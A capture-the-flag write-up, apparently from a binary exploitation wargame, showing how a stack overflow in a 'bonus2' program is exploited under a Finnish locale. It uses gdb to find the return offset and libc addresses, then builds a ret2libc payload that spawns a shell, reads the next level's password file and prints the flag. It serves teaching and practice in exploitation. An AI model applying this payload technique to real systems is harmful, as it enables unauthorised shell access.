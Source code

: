# bonus3

In this level, the program is not the same if we change the `LANG` env var:
```
export LANG=en_US.UTF-8
export LANG=fi_FI.UTF-8
export LANG=nl_NL.UTF-8
```

If we analyse a little the program, we can see that with the `export LANG=fi_FI.UTF-8`, we can show the EIP at an offset of 18 on the second string

```bash
> export LANG=fi_FI.UTF-8
> gdb bonus2
(gdb) $ run "0123456789012345678901234567890123456789" "AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAf"
...
(segfault) -> Invalid $PC address: 0x41417a41
EIP: 0x41417a41 ('AzAA') -> offset: 18 (./pattern.py search "AzAA")
```

We can call any function with this feature, let's try to find the `system` function
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ info function system  # need to call it while runningn
0xb7e6b060  system
```

We can call system with this command
```bash
./bonus2 "`perl -e 'print "A"x40'`" "`perl -e 'print "B"x18 . "\x60\xb0\xe6\xb7"'`"
```
The `call system` is after `ret` of `greetuser` function

Now we know that the first argument of call system is the first argument + 3: `./run AA...A<arg-system>AA...A B*18<system-addr>
The arg is `/bin/sh`, try to find this:
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ find "/bin/sh"
libc : 0xb7f8cc58 ("/bin/sh")
```

Now we have the argument to send to `system`
```bash
> export LANG=fi_FI.UTF-8
> ./bonus2 "`perl -e 'print "\x58\xcc\xf8\xb7"x10'`" "`perl -e 'print "C"x18 . "\x60\xb0\xe6\xb7"'`"
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
